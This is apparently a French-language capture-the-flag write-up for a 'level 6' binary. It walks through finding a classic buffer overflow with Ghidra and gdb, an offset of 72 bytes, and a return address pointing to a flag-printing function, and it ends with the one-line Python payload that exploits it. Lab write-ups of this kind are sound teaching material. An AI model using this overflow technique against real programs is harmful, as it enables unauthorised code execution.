






# LEVEL 6

## Intro

Ici on a quelque chose d'un peu different

Mais on devine que ca ne sera pas un string attack mais un buffer overflow classic, on peut verifier simplement avec ghidra.

On voit bien en effet qu'il ya un buffer overflow a exploiter , en cherchant un peu plus il y a cette fonction qui donne le flag : 

et son addresse est : 08048454 soit \x54\x84\x04\x08 en little endien.

## Payload

Pour le payload il va nous falloir l offset , (la ou ca segfault) qu ' on peut obtenir toujours grace au patten generator :

on lance dabord le pattern avec gdb

Et on donne l'addresse de la ou ca segfault sur le site :

et on obtient un offset de **72**

Donc pour le paylaod on peut tout simplement : python -c 'print "A" * 72 + "\x54\x84\x04\x08"'
et pour avoir le resultat on peut le mettre dans un subshell et le passer en arguments du binaire : 

`./level6 "$(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')"`

Et on obtient le flag !

